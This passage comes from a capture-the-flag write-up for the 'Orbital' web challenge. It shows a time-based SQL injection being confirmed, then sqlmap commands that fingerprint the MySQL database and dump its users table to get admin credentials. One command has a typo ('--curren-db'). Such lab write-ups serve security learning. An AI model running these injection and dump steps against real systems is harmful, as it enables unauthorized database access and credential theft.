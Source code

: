 ![orbital_PoC.png](https://github.com/Sec0gh/CTF/blob/main/Cyber%20Apocalypse%202023%20-%20The%20Cursed%20Mission/Web%20images/orbital_PoC.png)
- **Here, we notice the server has taken more time to respond, and there is an over-in-time response with `10093 millis`.**
- So we can use `sqlmap` tool and try to dump any credentials from the database.
```
$ sqlmap --shell
sqlmap > -r request.req --batch --banner -p "username"
```

![orbital_SQLmap.png](https://github.com/Sec0gh/CTF/blob/main/Cyber%20Apocalypse%202023%20-%20The%20Cursed%20Mission/Web%20images/orbital_SQLmap.png)
```
sqlmap > -r request.req --batch --dbms='mysql' --curren-db
current database: 'orbital'
```
- Through the results, we extracted the admin credentials.
```
sqlmap > -r request.req --batch -D orbital --dump
Database: orbital                                                                                            
Table: users
[1 entry]
+----+-------------------------------------------------+----------+
| id | password                                        | username |
+----+-------------------------------------------------+----------+
```